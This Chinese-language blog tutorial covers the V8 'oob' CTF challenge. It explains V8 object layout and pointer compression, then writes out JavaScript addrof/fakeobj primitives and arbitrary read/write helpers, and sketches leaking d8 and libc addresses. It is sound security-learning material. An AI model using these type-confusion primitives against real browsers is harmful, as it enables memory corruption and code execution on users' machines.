继续。
主要参考blog：传送门
在实际的chrome v8 pwn题中，漏洞绝大多数都是类型混淆，实际上近年的chrome v8 CVE也绝大多数是由于类型混淆引起的。因此我们有必要理解究竟什么叫类型混淆。
在v8源代码中，定义了一个JSObject类，这是所有JS类型的父类，如JSDate日期类型、JSRegExp正则表达式类型等全都是它的子类。JSObject继承自JSReceiver，后者定义了一些属性：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 class JSReceiver : public TorqueGeneratedJSReceiver<JSReceiver, HeapObject> { public : NEVER_READ_ONLY_SPACE DECL_GETTER (HasFastProperties, bool ) DECL_GETTER (property_array, Tagged<PropertyArray>) DECL_GETTER (property_dictionary, Tagged<NameDictionary>) DECL_GETTER (property_dictionary_swiss, Tagged<SwissNameDictionary>)
这里的宏字面含义理解就是定义属性以及其对应的getter，第一个参数是成员名，第二个参数是类型。这里我们首先关注第二个：
Tagged<PropertyArray> property_array
这个Tagged可以理解为一个简单的封装，源码中的注释如是说：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43
可见，这个类型实际上是一个地址的封装，它会在地址的最低2个bit添加标志位，00代表小整数，01代表一个指向堆中JS对象的强指针，10代表一个指向堆中JS对象的弱指针，11代表被清理的弱指针。强指针和弱指针应该是对应于JS中的强引用和弱引用，只有强引用才能左右一个对象的生命周期，当对象的所有强引用被销毁时，该对象就会被销毁，不会考虑是否存在弱引用。不过一般的题目中都是强引用，这里仅做了解。
了解完Tagged之后，我们看到上面有3个Tagged类型，其中封装的类型分别为：PropertyArray、NameDictionary和SwissNameDictionary，后面两者通过查看其父类可知是哈希表类型，而第一个貌似是数组，但是具体的数据排布方式未知。下面我们通过调试探究一下。
在调试版的d8中，可以在运行时指定参数--allow-natives-syntax，这样在JS代码中可以通过%DebugPrint(...)的方式打印一个对象的底层信息，通过%SystemBreak()发送断点信号，方便我们通过gdb进行调试。

上图可知，这里对于一个浮点数的数组给出了很多信息。我们移步gdb查看一下：
从上面的图中，我们找到对象所在的地址为0x16e200288468，最后一个1是标志位忽略。下面是这个对象在内存中的布局：
1 2 3 4 5 pwndbg> tele 0x16e200288460 00:0000│ 0x16e200288460 ◂— 0x99447536c9d5a 01:0008│ 0x16e200288468 ◂— 0x7450008cf81 02:0010│ 0x16e200288470 ◂— 0x6000994f5 03:0018│ 0x16e200288478 ◂— 0xbab932000000b5
这就是这个对象的全部内容。很奇怪对吗，为什么这里没有任何指针呢？诶这就要提到v8中的指针压缩技术了。如果开启了v8的指针压缩，那么所有的v8对象都会被存放在一个4GB大小的内存空间中，由于此时所有的对象地址的高32位都相同，所以在对象实际存储时就不需要高32位，仅需保存低32位即可。这样的话我们就可以理解上面这一小段内存的含义了。
- map: 0x16e20008cf81 <Map[16](PACKED_SMI_ELEMENTS)> [FastProperties]：对应的是0x16e200288468开头的4字节空间，代表这个对象的类型。 - prototype: 0x16e20008d1f5 <JSArray[0]>：和map对应，是这个对象的原型。 - elements: 0x16e2000994f5 <FixedArray[3]> [PACKED_SMI_ELEMENTS (COW)]：对应的是0x16e200288470开头的4字节空间，代表数组元素的保存地址。 - length: 3：长度，常数，保存在0x16e200288474开头的4字节空间，因为最低位被保存为0所以只有高31位用于保存整数，表现在内存中即为6。 - properties: 0x16e200000745 <FixedArray[0]>：属性数组，即前面的PropertyArray，对应0x16e20028846c开头的4字节空间，保存这个类型的属性。
下面我们再看一下elements中的数组元素是如何保存的：
1 2 3 4 pwndbg> tele 0x16e2000994f0 00:0000│ 0x16e2000994f0 ◂— 0x67d00002d29 /* ')-' */ 01:0008│ 0x16e2000994f8 ◂— 0x200000006 02:0010│ 0x16e200099500 ◂— 0x600000004
也是很好理解：
0x16e2000994f4开头的4字节空间是map，用于指明类型
0x16e2000994f8开头的4字节空间是整数3，表示数组长度
后面的3个32位类型就是数组的内容，分别为1、2、3。
在新版本中，默认是开启指针压缩的，因为能够提升执行效率。在上一篇blog中提到的那道2019年的赛题使用的版本中，默认就没有开启，所以内存中就直接保存了真实的64位内存地址。
由此，我们就能够解释上一篇blog中oob函数输出的浮点数究竟代表什么东西了。
在release版本中我们同样可以使用--allow-natives-syntax参数，不过只能输出对象所在的地址。但是v8提供了一个gdb脚本可以用于输出对象信息，位于tools/gdbinit，将其添加到~/.gdbinit中即可。
下面是调试结果：

可以看到这里的输出是2.65365992014225e-310。我们查看一下elements：

可以看到，如果我们将数组后面那个地方视作浮点数的话，结果的值与输出完全相同。因此这里泄露的就是一个内存地址。经过简单的观察发现，这里实际上就是我们的浮点数数组对象的位置，这里保存的就是一个map。即保存数组元素的位置正好在对象的低地址处。因为oob函数如果传入参数，是可以溢出写入的，而这里又是标志一个对象类型的重要结构。如果我们将这个地方成功修改，那么JS解释器就会出现类型混淆的漏洞。
注：Map类在objects/map.h中也有详细的字段数据结构分析，感兴趣可以移步研究。
下面，我们就利用刚刚对于chrome v8相关内容的理解，彻底做出oob这道题。
前面提到，这道题我们可以实现对对象map实例的读或写，下面我们来解释一下如何通过这两个操作完成对任意地址的读写。
首先我们知道，Object在JS中很常用，JS可以定义一个Object数组。但Object包含的东西太多，这些东西占用的内存大小各不相同，如果要将其整合到一个数组中，那么数组必然只能保存一个指针值。而浮点数数组中保存的浮点数也是8个字节长度。因此如果将Object数组混淆为浮点数数组，那么我们就可以通过直接输出的方式获取到指针值对应的浮点数。
考虑下面的JS代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 var first_object = {"1" : 2 };var second_object = [1 , 2 , 3 ];var obj_arr = [first_object, second_object];var float_arr = [0.1 ];var float_typemap = float_arr.oob ();var obj_typemap = obj_arr.oob ();obj_arr.oob (float_typemap);
这里我们定义了两个数组，一个是对象数组而另一个是浮点数数组。执行完两个oob函数之后，我们就获得了两个map指针的浮点数表示。注意这里有一个细节，如果代码写成下面的格式，我们获取到的对象数组的map地址是错误的：
1 2 3 4 5 6 7 8 9 10 11 12 var obj_arr = [{"1" : 2 }, [1 , 2 , 3 ]];var float_arr = [0.1 ];var float_typemap = float_arr.oob ();var obj_typemap = obj_arr.oob ();obj_arr.oob (float_typemap);
因为v8维护自己的对象堆空间，所有的对象都会保存在单独的通过mmap分配出来的空间，而不是v8本身的堆空间。上面两段代码的唯一区别就是是否将对象数组中的两个对象提前定义出来。这会导致v8创建对象的顺序不同。对于前者，v8会首先创建两个对象，然后在需要创建对象数组时，首先创建固定长度的数组用于保存对象，再创建对象数组obj_arr并将其中的数组指针指向那个固定长度的数组，这样就能够保证定长数组与obj_arr之间没有其他东西，然而如果使用下面的代码，v8会首先分配定长数组空间，然后定义两个对象，最后为obj_arr分配空间，这样我们obj_arr.oob()得到的就不是obj_arr的map。
讨论完这个细节之后，我们可以看到，obj_arr.oob(float_typemap);这一句就能够成功将原来的对象数组解析成浮点数数组，对象数组中的指针会被v8错误地解析为浮点数。由此，我们可以编写获取任意对象地址/将任意地址伪造为对象 的JS代码。不过在此之前，我们需要首先研究一下Javascript的数字类型表示。
众所周知，Javascript对于所有除了BigInt的数都是使用浮点数表示的。通过将对象数组混淆为浮点数数组，我们可以通过获取浮点数的方式获取对象地址，但如果要想将任何一个整数表示的地址写入浮点数数组，就需要进行一定的处理。我们需要解决的是下面的问题：
对于一个8字节整数值注入，如何使用Javascript代码将其转化为浮点数，使得输入的整数与输出的浮点数在内存中的表示值相同。
这个问题，我们可以通过下面的JS代码解决：
1 2 3 4 5 6 7 8 9 10 11 12 13 var overlapping_buf = new ArrayBuffer (0x20 );var for_double_value = new Float64Array (overlapping_buf);var for_bigint_value = new BigUint64Array (overlapping_buf);function double_to_int64 (double_value ) { for_double_value[0 ] = double_value; return for_bigint_value[0 ]; } function int64_to_double (int64_value ) { for_bigint_value[0 ] = int64_value; return for_double_value[0 ]; }
下面我们就来解释一下为什么这段代码能够实现浮点数和大整数的转换。我们通过调试下面的代码来解释。
1 2 3 4 5 6 7 8 var x = 0x12345678abcdn ;%DebugPrint (overlapping_buf); %DebugPrint (for_double_value); %DebugPrint (for_bigint_value); %DebugPrint (int64_to_double (x)); %DebugPrint (double_to_int64 (int64_to_double (x))); %SystemBreak ();
下面是overlapping_buf的信息：

可以看到，我们初始化的内存空间是保存在v8的堆中，而不是对象堆空间中。然后这个内存空间中已经成功保存了我们写入的大整数值。

输出的这个10进制整数值经过验证也等于我们输入的值。

这种现象产生的根本原因是，我们让两个不同类型的数组指向了同一个内存buffer。二者共用一个内存buffer，使得我们修改一个会导致另一个也发生改变。
！注意：这里的BigUint64Array保存的并不是BigInt类型 ，实际上，如果你尝试构建一个BigInt数组，这个数组的类型实际为对象数组，因为BigInt并没有确定的大小，它随着保存的数字的大小而动态变化其占用的内存空间大小，所以在数组构建时，也只能保存其指针，类型设置为对象数组。而BigUint64Array的元素就是固定的64位无符号整数，这种整数表示形式不能单独存在，将其提取出来单独定义必然要将其转化为浮点数类型或大整数类型。故我们定义的BigUint64Array和Float64Array具有相同的数据长度，再加上JS允许上面的缓冲区重用，因此我们就能够实现浮点数到64位内整数的无缝无损转换。
现在，我们就可以实现刚才提到的两个功能——获取任意对象的地址/将任意地址作为对象解析：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 function get_object_address (object ) { obj_arr[0 ] = object; obj_arr.oob (float_typemap); let obj_addr = double_to_int64 (obj_arr[0 ]) - 1n ; obj_arr.oob (obj_typemap); return obj_addr; } function treat_address_as_object (addr ) { float_arr[0 ] = int64_to_double (addr + 1n ); float_arr.oob (obj_typemap); let fake_obj = float_arr[0 ]; float_arr.oob (float_typemap); return fake_obj; }
将上面的几段代码合并，我们测试一下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 var overlapping_buf = new ArrayBuffer (0x20 );var for_double_value = new Float64Array (overlapping_buf);var for_bigint_value = new BigUint64Array (overlapping_buf);function double_to_int64 (double_value ) { for_double_value[0 ] = double_value; return for_bigint_value[0 ]; } function int64_to_double (int64_value ) { for_bigint_value[0 ] = int64_value; return for_double_value[0 ]; } var first_object = {"1" : 2 };var second_object = [1 , 2 , 3 ];var obj_arr = [first_object, second_object];var float_arr = [0.1 ];var float_typemap = float_arr.oob ();var obj_typemap = obj_arr.oob ();function get_object_address (object ) { obj_arr[0 ] = object; obj_arr.oob (float_typemap); let obj_addr = double_to_int64 (obj_arr[0 ]) - 1n ; obj_arr.oob (obj_typemap); return obj_addr; } function treat_address_as_object (addr ) { float_arr[0 ] = int64_to_double (addr + 1n ); float_arr.oob (obj_typemap); let fake_obj = float_arr[0 ]; float_arr.oob (float_typemap); return fake_obj; } var first_object_addr = get_object_address (first_object);%DebugPrint (first_object); console .log ("first object address: 0x" + get_object_address (first_object).toString (16 ));

成功。
刚才我们更进一步，完成了对象的伪造以及对象地址的获取，下面我们需要进一步通过这个完成任意地址的读写操作。
思路其实也很简单，我们直接创建一个数组，里面伪造一下数组的对象结构，包括map指针、缓冲区指针等，然后通过将这个地方视作假对象，访问数组成员，即可实现对缓冲区指针的读写。
因此，我们下面就需要明确两个方面：要伪造一个能够正常使用的数组需要伪造哪些东西；使用什么对象来保存伪造的BigUint64Array。
首先看第二点，我们貌似可以使用一个BigUint64Array保存伪造的数组，但问题是这个对象应该如何初始化。如果我们通过初始化ArrayBuffer的方式来初始化它，那么内存中的对象结构就是下面这样：

可以看到，我们实际的缓冲区并不是elements中保存的base_pointer指针，而是在external_pointer中。这种数据结构与我们之前定义的对象数组obj_arr不同。如果我们获取obj_arr的elements的类型信息与上面相比较，可以发现：

直接通过初始值初始化的数组，其elements比通过缓冲区初始化的数组多了一个属性：non-extensible，即不可扩展性。这里并不是说我们不能为obj_arr添加其他元素，而是说这个保存元素的数组本身不能进行扩充，如果需要扩充数组长度，必须在其他地方重新分配更大的空间来保存元素。既然这里的数组不可扩展，那么在内存中，它就会直接保存元素的值，在对象数组中是指针。而对于使用缓冲区初始化的数组来说，我们获取了elements地址还不够，还需要获取elements中的external_pointer的值，然后才能真正访问到数组内容。
因此为了简单起见，我们应该使用通过值来初始化数组。但前面也提到了，我们无法使用大整数值直接对BigUintArray进行初始化，因此我们只能使用浮点数数组完成初始化，因为将浮点数使用中括号括起来就表示浮点数数组，而将大整数使用中括号括起来却不表示BigUintArray。不过我们不用担心浮点数精度损失的问题，因为我们已经定义好了浮点数和64位整数相互转换的函数。
好，现在我们已经确定使用浮点数数组来保存伪造的对象，为了简单起见，在数组内部，我们也应该使用浮点数数组作为伪造的对象，因为我们目前已经知道了浮点数数组的map地址，可以直接拿来使用。
下面我们回顾一下浮点数数组对象的数据结构：

一个浮点数数组对象，不包括指针的大小是0x20，需要保存：map指针、property指针、elements指针、32位的0占位和32位长度值。这是oob题的7.5版本的结构，我们再来看一下最新的13.3.0版本：
新版本默认将指针进行压缩，因此大小变为原来的一半，长度值的保存有些微变化，最后1位作为整数的标志位，故长度值实际使用31位保存，整体上来看区别不大，我们如果在新版本上定义oob函数，最后一样能够实现类似的效果，只是需要对指针进行进一步的处理，如此时通过oob获取的指针需要取低4字节，且我们无法获知实际指针的高4字节，但也没关系。我们还能够获取数组结构的property指针的低4字节，也就是oob获取的指针值的高4字节。
不过下面我们还是首先从7.5版本入手。
在7.5版本中，指针全部是8个字节大小，因此我们不能获得property指针，但数组元素的访问并不需要使用property指针，因此我们直接设置为0即可。另外要注意指针的设置，elements的前面两个8字节空间是分别用于保存map和数组长度的，访问时是从elements+0x10开始。下面试验一下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 var fake_object_container = [float_typemap, 0 , 0 , int64_to_double (0x10n * 0x100000000n )];var container_addr = get_object_address (fake_object_container);var fake_object_addr = container_addr + 0x30n ;var fake_object = treat_address_as_object (fake_object_addr);function set_addr_to_rw (addr ) { fake_object_container[2 ] = int64_to_double (addr - 0x10n + 1n ); } function get_rw_addr (idx ) { return double_to_int64 (fake_object_container[2 ]) - 1n + 0x10n + BigInt (idx) * 8n ; } console .log ("Container address: 0x" + container_addr.toString (16 ));set_addr_to_rw (container_addr);console .log ("Reading: 0x" + get_rw_addr (1 ).toString (16 ));console .log ("0x" + double_to_int64 (fake_object[1 ]).toString (16 ));%DebugPrint (fake_object_container); %SystemBreak ();
这里有2个小细节：set_addr_to_rw里面需要将传入的地址减去0x10再加上1，减去0x10刚才已经提到，要避开前面的两个字段，后面那个加上1是因为直接保存元素的数组本质上也是一个对象，也需要在末位加1进行标识。另外对于fake object的开始地址的获取，这里是将真浮点数数组对象的地址加上0x30，这是根据内存布局决定的，不同的函数调用顺序可能会导致不同的内存布局，因为对象的创建顺序可能不同。


成功完成对指定地址的读操作，当然写也很简单实现。我们再将其封装一下，就变成了下面这样：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 var fake_object_container = [float_typemap, 0 , 0 , int64_to_double (0x10n * 0x100000000n )];var container_addr = get_object_address (fake_object_container);var fake_object_addr = container_addr + 0x30n ;var fake_object = treat_address_as_object (fake_object_addr);function set_addr_to_rw (addr ) { fake_object_container[2 ] = int64_to_double (addr - 0x10n + 1n ); } function get_rw_addr (idx ) { return double_to_int64 (fake_object_container[2 ]) - 1n + 0x10n + BigInt (idx) * 8n ; } function read_addr (addr ) { set_addr_to_rw (addr); return double_to_int64 (fake_object[1 ]); } function write_addr (addr, value ) { set_addr_to_rw (addr); fake_object[1 ] = int64_to_double (value); }
至此我们就获得了内存操作至高无上的任意读写权限。
虽然我们已经能够进行任意地址读写，但还需要解决最后一个问题，才能实现真正的任意代码执行，那就是如何获取libc地址、栈地址等，任意代码执行需要这些地址完成。需要注意的是，本文开头的参考文章中提到使用此类浮点数数组进行读写存在一定的问题，可能导致7f开头的地址无法读写，因此这里我们另外伪造一个以buffer初始化的数组，因为这类数组的external_pointer必然在v8的堆中而不在对象堆空间，所以必然是需要保存完整指针的，通过对这里进行修改，才能够实现真正的任意地址读写。
因此考虑到脚本的可扩展性，我们可以通过刚才实现的浮点数数组“伪任意地址写”实现64位无符号整数数组的“真任意地址写”，实现方式也很简单，只需要将前面那个用于进行浮点数和整数转换的BigUint64Array复制一份，然后将堆指针修改即可。
我们首先获取一下BigUint64Array的内存数据结构布局：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 pwndbg> job(0x3039bc2cf0d9) 0x3039bc2cf0d9: [JSTypedArray] - map: 0x34daeca00b89 <Map(BIGUINT64_ELEMENTS)> [FastProperties] - prototype: 0x310ba1d45469 <Object map = 0x34daeca00bd9> - elements: 0x3039bc2cf121 <FixedBigUint64Array[0]> [BIGUINT64_ELEMENTS] - embedder fields: 2 - buffer: 0x3039bc2cf031 <ArrayBuffer map = 0x34daeca021b9> - byte_offset: 0 - byte_length: 32 - length: 4 - properties: 0x2494f4ec0c71 <FixedArray[0]> {} - embedder fields = { 0, aligned pointer: (nil) 0, aligned pointer: (nil) } pwndbg> tele 0x3039bc2cf0d8 00:0000│ 0x3039bc2cf0d8 —▸ 0x34daeca00b89 ◂— 0x900002494f4ec01 01:0008│ 0x3039bc2cf0e0 —▸ 0x2494f4ec0c71 ◂— 0x2494f4ec08 02:0010│ 0x3039bc2cf0e8 —▸ 0x3039bc2cf121 ◂— 0x2494f4ec26 03:0018│ 0x3039bc2cf0f0 —▸ 0x3039bc2cf031 ◂— 0x71000034daeca021 04:0020│ 0x3039bc2cf0f8 ◂— 0 05:0028│ 0x3039bc2cf100 ◂— 0x20 /* ' ' */ 06:0030│ 0x3039bc2cf108 ◂— 0x400000000 07:0038│ 0x3039bc2cf110 ◂— 0 pwndbg> 08:0040│ 0x3039bc2cf118 ◂— 0 pwndbg> job(0x3039bc2cf121) 0x3039bc2cf121: [FixedBigUint64Array] - map: 0x2494f4ec2629 <Map> - length: 0 - base_pointer: <nullptr> - external_pointer: 0x5592936e2030 pwndbg> tele 0x3039bc2cf120 00:0000│ 0x3039bc2cf120 —▸ 0x2494f4ec2629 ◂— 0x2494f4ec01 01:0008│ 0x3039bc2cf128 ◂— 0 02:0010│ 0x3039bc2cf130 ◂— 0 03:0018│ 0x3039bc2cf138 —▸ 0x5592936e2030 —▸ 0x3039bc2cf3f1 ◂— 0x34daeca02e
数组对象本身的大小为0x48个字节，保存堆地址的数组的大小为0x20个字节（且二者在内存中相邻），我们可以直接创建一个新的大小为0x68的浮点数数组，然后将这些内容复制进去：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 var fake_bigint64arr_container = [0.1 , 0 , 0 , 0 , 0 , 0 , 0 , 0 , 0 , 0 , 0 , 0 , 0 ];for (let off = 0 ; off < 13 ; off++) { let v = read_addr (get_object_address (for_bigint_value) + BigInt (off) * 8n ); fake_bigint64arr_container[off] = int64_to_double (v); } fake_bigint64arr_container[2 ] = int64_to_double (get_object_address (fake_bigint64arr_container) - 0x20n + 1n ); heap_addr = double_to_int64 (fake_bigint64arr_container[12 ]); fake_bigintarr = treat_address_as_object (get_object_address (fake_bigint64arr_container) - 0x68n ); function read_at (addr ) { fake_bigint64arr_container[12 ] = int64_to_double (addr); return fake_bigintarr[0 ]; } function write_at (addr, value ) { fake_bigint64arr_container[12 ] = int64_to_double (addr); fake_bigintarr[0 ] = value; }
至此，正式攻击前的所有准备工作我们都已经安排妥当，而且我们还获取到了一个有效的堆地址。
注：在高版本下开启指针压缩的情况下，v8早就考虑到了相关的安全隐患，导致我们可能无法在整个对象堆空间中找到哪怕一个堆/libc/d8代码地址。至于这种情况下的堆指针如何获取，我们以后再来探究。
下面，我们需要思考的是，如何获取libc地址，这对于漏洞利用至关重要。
其实都走到这一步了，想要获取也不是一件难事。如果在调试时查看一下堆空间就可以知道，堆中存在几个已经被释放的大chunk，其中必然包含指向main_arena的指针。我们可以根据读取到的值大小来判断这到底是不是libc的指针，然后向前寻找，知道找到libc开头的标志性ELF字符串，这样就可以获取到libc基地址了。但这种方法的问题在于不稳定，虽然成功率很高但是效率太低，如果是远程环境的话可能需要很长时间。
下面介绍一条稳定的链条，通过这个指针链，可以找到d8 ELF中的代码地址。根据这个地址，可以获取d8 ELF的基地址，进而通过stdin这样的label获取libc基地址。
这条链的操作流程：找到任意一个map -> 找到map中的constructor地址 -> 找到constructor中的code地址 -> 该地址下方会保存一段代码，在代码中存在movabs指令，其操作数为一个d8 ELF内地址。
